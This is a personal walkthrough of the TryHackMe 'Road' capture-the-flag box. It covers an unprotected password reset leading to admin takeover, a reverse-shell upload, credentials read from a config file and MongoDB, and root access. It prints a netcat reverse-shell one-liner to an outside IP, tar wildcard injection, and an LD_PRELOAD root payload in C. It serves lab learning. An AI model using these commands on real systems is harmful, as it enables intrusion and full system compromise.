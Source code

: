# Road Helped-Through

Name: Road
Date:  16/4/2023
Difficulty:  Medium
Goals:  
- Follow along with Al while I do the more automatable time hungry Offsec execises 
- Warm up
Learnt:
- Try Harder
- Scrutinise integrity of password reset source code
- READ
Beyond Root:
- H4ddixB4dg3r Programming for a hour!

<iframe width="560" height="315" src="https://www.youtube.com/embed/yYw3ysOdNt8" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>

[Alh4zr3d - VOD](https://www.youtube.com/watch?v=yYw3ysOdNt8) I followed allow and paused serval times to distance myself from these Helped-Throughs as I inch closer to going for more OSCP stuff.

## Recon

The time to live(TTL) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](TryHackMe/Markdown/Road/Screenshots/ping.png)

Nuclei finds [[phpmyadmin-panel-http___10.10.75.48_phpMyAdmin_]]

- Registered a user: `admin@admin.com : admin`
- Found the `admin@sky.thm`

I found:
![](loggedinadminsemail.png)

Al points out No CSRF token
![](alfindcsrftoken.png)

Testing 
![](seewhathappens.png)

Results in:
![](none.png)

Password resets are not normally implemented without requiring previous password.
![](resetuser.png)

Oh oh
![](letsseeifitworked.png)

Now we are Admin
![](weareadminskythm.png)


Now we can upload a picture for user profile

Alh4zr3d points out XXS
![1080](sadliveoverflow.png)
It is not displaying everything as it is Reflected-based XSS

- It not stored as it is not persistent
- It is reflected back, but non persistent 

- Is user input is reflected back onto the page? 
- Is http-only flag set to prevent user cookie compromise ?

[Types of XSS](https://owasp.org/www-community/Types_of_Cross-Site_Scripting) either client-side or server-side
 - DOM XSS 
	 - Where the entire tainted data flow from source to sink takes place in the browser
	 - Is subset of Client XSS
- Reflected XSS
	- Non-Persistent
- Stored XSS
	- Persistent

![](alONEtoolsZero.png)


## Exploit and www-data Foothold

Simply just uploaded pentest monkey reverse shell. I was hoping I could crack open some methodological rigor for myself.
![](rshellachieved.png)

Go mongodb
![](webdeveloperowwnedfiles.png)
Al points out this:
![](iwentforconfbutalfinditfirst.png)

`ThisIsSecurePassword!`

I paused here to practice some SQL
![](sequalofwoow.png)


`webdeveloper : BahamasChapp123!@#`

```sql
mongo "mongodb://localhost:27017"
show dbs;
use backup;
show tables;
db.user.find();
```

![](webdeveloperspassword.png)

## PrivEsc

Now as the webdeveloper user:
![](clapping.png)
Initial sudo privilege:
![](sudosky_back_up_utility.png)

I ran this is binary and paused the video as I think this is similar to [[Reddish-Helped-Through]] - it is backing up the webserver with a wildcard:
![](backupthewebshell.png)
[Hack Tricks - wildcards spare trikcs](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks)

It uses `tar`
![](tarwildcards.png)

So we can just get root from something like
```bash
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.14.43.145 6969 >/tmp/f" > shell.sh
```

![](didnotwork.png)

Al points out how sudo is `env_keep+=LD_PRELOAD`, we have `gcc` - from [Hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#ld_preload-and-ld_library_path)

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

![](whichworked.png)

- Try Harder.

## Beyond Root

H4ddixB4dg3r Programming for a hour!